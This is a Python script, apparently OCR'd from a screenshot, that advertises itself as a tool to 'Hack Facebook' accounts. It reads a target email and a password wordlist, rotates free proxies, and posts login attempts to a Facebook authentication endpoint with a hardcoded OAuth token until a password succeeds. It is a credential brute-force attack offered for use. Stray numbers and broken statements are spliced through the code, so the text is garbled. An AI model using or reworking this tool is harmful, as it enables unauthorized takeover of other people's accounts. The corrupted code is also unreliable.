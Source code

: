 import requests
import random
from time import sleep
import json
import sys
import uuid
import os
from user_agent import generate_user_agent
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import threading

R = '\033[2;31m'
G = '\033[2;32m'
Y = '\033[2;33m'
P = '\033[2;34m'
H = '\033[2;35m'
C = '\033[2;36m'
W = '\033[2;37m'
de = 'https://t.me/M_3_7_1'

Z = '\033[1;31m' #احمر
X = '\033[1;33m' #اصفر
#Z1 = '\033[2;31m' #احمر ثاني
F = '\033[2;32m' #اخضر
A = '\033[2;39m' #ازرق
#C = '\033[2;35m' #وردي
B = '\033[2;36m'#سمائي
#Y = '\033[1;34m' #ازرق فاتح

W = '\033[2;37m'
def s(z):
    for e in z:
        sys.stdout.write(e)
        sys.stdout.flush()
        sleep(0.5/10)

s(G+' Welcome To Best Tool In Telegram For Hack Facebook')
print('')
print('')
s(H+' This Tool Made By DeadCode & Mr.Black ')
print('')
print('')
def logo():deadcode_22
   
 #   p = pyfiglet.figlet_format('Hack - FB')
  #  print(F+p)
    print('')
    print('')
    print(f"{B}  ▄▅▆▇ AUTHOR : DeadCode ▇▆▅▄▂▁")
    print(f"{H}  ▄▅▆▇ TELEGRAM : deadcode_22  ▇▆▅▄▂▁")
    print(f"{X}  ▄▅▆▇ PROTHER : BlackZomby ▇▆▅▄▂▁")
    print(f"{G}  ▄▅▆▇ Hack FB Accounts    ▇▆▅▄▂▁")
    print('')
    print('')
    print('')

logo()
s(' Wait Tool Is Loading.... ')
sleep(5)
os.system('clear')
logo(0557550626)logo(0557550626)


print(H+' - '*20+'\n'+P+' ( + ) '+' dev &» '+ C+de+'\n'+H+' - '*20)

email = input(P+' ( + ) '+Y+'Enter Email Facebock: '+W)
bass = input(P+' ( + ) '+Y+'Enter List Password : '+W)

try:
    file = open(f'{bass}', "r")    
except:
    exit(R+' ♕ Not found your list ')   

def check(file,email):
 ro = file.readline()
 te = len(ro)
 ded = 0    
 while True:
      ded += 1
      re = file.readline().split('\n')[0]
      if re =='':
          exit(R+' List is finished ')    
      password = str(re)    
  
      try:
          proxies = requests.get('https://gimmeproxy.com/api/getProxy').json()['curl']
          proxy = proxies.split('//')[1]
                 
          url = "https://b-graph.facebook.com/auth/login"
          headers = {
            "authorization": "OAuth 200424423651082|2a9918c6bcd75b94cefcbb5635c6ad16",
            "user-agent": str(generate_user_agent())
        }
          data = f"email={email}&password={password}&credentials_type=password&error_detail_type=button_with_disabled&format=json&device_id={uuid.uuid4()}&generate_session_cookies=1&generate_analytics_claim=1&generate_machine_id=1&method=POST"
          requests.packages.urllib3.disable_warnings(InsecureRequestWarning)     
          response = requests.post(url, headers=headers, json=data,proxies=proxies, verify=False, timeout=15).json()
          print(response)
          if list(response)[0] == "session_key":
              print(P+' ( + ) '+G+f'Good Password {W}({G}{password}{W}) ')
          elif "We are having technical difficulties and are actively working on a fix. Please try again in a few minutes." in response:
              print(P+' ( + ) '+R+f"Bad Proxy : {proxy}")
              sleep(20)        
          elif '' in response:
              print(P+' ( + ) '+R+f"Bad Proxy : {proxy}")
              sleep(20)
              acc = G+f"""
⌯ email successful ✅ ⌯         
. ┉ ┉ ┉ ┉ ┉ ┉ ┉ ┉ ┉ ┉ .        
⌯ Number ➥ {email}                    
⌯ Password ➥ {password}                
. ┉ ┉ ┉ ┉ ┉ ┉ ┉ ┉ ┉ ┉ .        
⚖️ Tele : @deadcode_22    """
              print(acc)
              sys.exit(P+' ( + ) '+Y+'See You Soon ')
          else:0557550626


              print(P+' ( + ) '+R+f'Bad Password {W}({R}{password}{W}) ({ded}/{te}) ') 
              sleep(1)       0557550626
              


         
      except requests.exceptions.ConnectionError:
       print(P+' ( + ) '+R+f"Bad Proxy : {proxy}")
      except:0557550626
       pass 0557550626

check(file,email)			                          
